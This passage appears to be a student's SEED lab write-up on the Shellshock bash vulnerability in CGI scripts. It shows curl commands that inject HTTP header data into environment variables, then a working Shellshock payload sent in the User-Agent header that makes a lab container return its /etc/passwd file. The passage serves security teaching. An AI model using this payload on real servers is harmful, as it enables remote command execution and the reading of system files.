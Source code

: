 Using
```bash
curl -e "my data" -v www.seedlab-shellshock.com/cgi-bin/getenv.cgi
```
The <code>HTTP_REFERER</code> field is set to <code>my data</code>.

Using
```bash
curl -H "AAAAAA: BBBBBB" -v www.seedlab-shellshock.com/cgi-bin/getenv.cgi
```
A new <code>HTTP_AAAAAA</code> field is added and assigned with <code>BBBBBB</code>.

These three options can all be used to inject data into the environment variables of the target CGI program.

### Task 3: Launching the Shellshock Attack

We can now launch the Shellshock attack. The attack does not depend on what is in the CGI program, as it targets the bash program, which is invoked before the actual CGI script is executed. Our job is to launch the attack through the URL [http://www.seedlab-shellshock.com/cgi-bin/vul.cgi](http://www.seedlab-shellshock.com/cgi-bin/vul.cgi), so we can get the server to run an arbitrary command. Please use three different approaches (i.e., three different HTTP header fields) to launch the Shellshock attack against the target CGI program.

Whatever the CGI program prints out will go to the <code>Apache</code> server, which in turn sends the data back to the client. <code>Apache</code> needs to know the type of the content: text, multi-media, or other types. If the output is text, we can tell <code>Apache</code> the data type by including "<code>Content_type: text/plain</code>", followed by an empty line.

#### Task 3.A: Get the server to send back the content of the <code>/etc/passwd</code> file.

**Ans:** Below is the commands I used, including those waking up the Docker:
```console
[October 29 2022] seed@xingjian:~/Documents/cse523s/Shellshock$ dcup -d
Creating network "net-10.9.0.0" with the default driver
Creating victim-10.9.0.80 ... done
[October 29 2022] seed@xingjian:~/Documents/cse523s/Shellshock$ docker ps
CONTAINER ID   IMAGE                       COMMAND                  CREATED          STATUS         PORTS     NAMES
adb5168e1e79   seed-image-www-shellshock   "/bin/sh -c 'service…"   11 seconds ago   Up 9 seconds             victim-10.9.0.80
[October 29 2022] seed@xingjian:~/Documents/cse523s/Shellshock$ docksh ad
root@adb5168e1e79:/# curl -A "() { echo vulnerable; }; echo Content_type: text/pain; echo; /bin/cat /etc/passwd" http://www.seedlab-shellshock.com/cgi-bin/vul.cgi
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
```
I obtained the same results if I replace <code>-A</code> with <code>-e</code> or <code>-H</code>.


[^1]: Reverse shell is a shell process started on a machine, with its input and output being controlled by somebody from a remote computer. Basically, the shell runs on the victim's machine, but it takes input from the attacker machine and also prints its output on the attacker's machine. Reverse shell gives attackers a convenient way to run commands on a compromised machine. The key idea of reverse shell is to redirects its standard input, output, and error devices to a network connection, so the shell gets its input from the connection, and prints out its output also to the connection. At the other end of the connection is a program run by the attacker; the program simply displays whatever comes from the shell at the other end, and sends whatever is typed by the attacker to the shell, over the network connection.